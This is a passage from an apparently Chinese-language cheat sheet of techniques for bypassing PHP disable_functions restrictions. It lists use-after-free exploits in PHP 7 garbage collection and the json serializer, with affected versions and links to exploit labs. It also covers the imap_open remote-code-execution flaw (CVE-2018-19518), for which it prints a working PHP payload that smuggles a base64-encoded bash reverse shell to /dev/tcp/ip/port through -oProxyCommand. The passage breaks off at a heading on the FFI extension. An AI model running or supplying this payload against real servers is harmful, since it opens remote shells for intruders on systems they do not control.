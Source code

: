 ```php
?>
```

复现环境 https://github.com/Medicean/VulApps/tree/master/i/imagemagick/1

## 7.PHP7 GC with Certain Destructors UAF

>https://github.com/AntSwordProject/AntSword-Labs/tree/master/bypass_disable_functions/7
>
>https://github.com/mm0r1/exploits/tree/master/php7-gc-bypass

UAF利用

## 8. json Serializer UAF

>https://github.com/AntSwordProject/AntSword-Labs/tree/master/bypass_disable_functions/6

注意 PHP 版本需要满足:

- 7.1 - all versions to date
- 7.2 < 7.2.19 (released: 30 May 2019)
- 7.3 < 7.3.6 (released: 30 May 2019)

https://bugs.php.net/bug.php?id=77843

## 9. PHP7 GC with Certain Destructors UAF

>https://github.com/AntSwordProject/AntSword-Labs/tree/master/bypass_disable_functions/7

- Linux 操作系统
- PHP 版本
  - 7.0 - all versions to date
  - 7.1 - all versions to date
  - 7.2 - all versions to date
  - 7.3 - all versions to date

https://bugs.php.net/bug.php?id=72530

## 10. PHP imap_open RCE 漏洞 （CVE-2018-19518）

要求 PHP 安装 imap 模块

反弹 shell payload：

```php
<?php
$payload = "/bin/bash -i >& /dev/tcp/ip/port 0>&1";
$base64 = base64_encode($payload);
$server = "any -oProxyCommand=echot{$base64}|base64t-d|bash";
@imap_open("{".$server."}:143/imap}INBOX","","");
```

## 11. 利用 FFI 扩展
